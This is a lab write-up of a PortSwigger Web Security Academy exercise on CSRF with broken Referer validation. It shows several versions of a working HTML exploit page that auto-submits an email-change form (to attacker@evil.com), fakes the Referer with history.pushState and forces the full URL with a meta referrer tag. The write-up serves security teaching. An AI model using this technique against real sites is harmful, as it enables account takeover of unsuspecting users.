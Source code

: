 # CSRF with broken Referer validation | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-referer-validation-broken), you'll learn: CSRF with broken Referer validation! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052029.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052052.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052057.png)

In the previous labs, we found that the email change functionality is vulnerable to CSRF.

**Let's inspect that HTML form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

In here, we can see that there is **no CSRF token**.

**Now, we can use the `exploit serevr` to test CSRF attack:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052342.png)

**Then, we can craft a HTML form that performs CSRF attack on the victim:**
```html
<html>
    <head>
        <title>CSRF-8</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**To test is will work or not, I'll use the `View exploit` button:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052529.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052546.png)

However, it outputs an error: `Invalid referer header`.

**In the previous lab, we bypass that check with a `<meta>` tag:**
```html
<html>
    <head>
        <meta name="referrer" content="no-referrer">
        <title>CSRF-8</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Let's try that again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052723.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052738.png)

Hmm... We still get an `Invalid referer header` error.

**This got me thinking: Is the application validates that the domain in the `Referer` starts with the expected value??**

**Let's check that in Burp Suite's Repeater:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215053511.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215053540.png)

**In here, we can try to send a different URL in the `Referer` header:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215053634.png)

**Then, what if I try to append a GET parameter after the expected value?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215054242.png)

It still works!

**That being said, the application is checking the domain in the `Referer` starts with the expected value!**

**According the [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/API/History/pushState), we can use a JavaScript function called `history.pushState()`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215054430.png)

**To bypass that check, we can add the `history.pushState()` function in our exploit:**
```html
<html>
    <head>
        <title>CSRF-8</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            history.pushState('', '', '/?0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```

This will cause the `Referer` header in the generated request to contain the URL of the target site in the query string.

However, this still couldn't work, as many browsers now strip the query string from the Referer header by default as a security measure.

**To bypass that, we can just add a new `<meta>` tag to override that behavior and ensure that the full URL is included in the request:**
```html
<html>
    <head>
        <meta name="referrer" content="unsafe-url">
        <title>CSRF-8</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            history.pushState('', '', '/?0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Finally, we can send this exploit to a victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215054941.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215054955.png)

We successfully changed a victim email address!

# What we've learned:

1. CSRF with broken Referer validation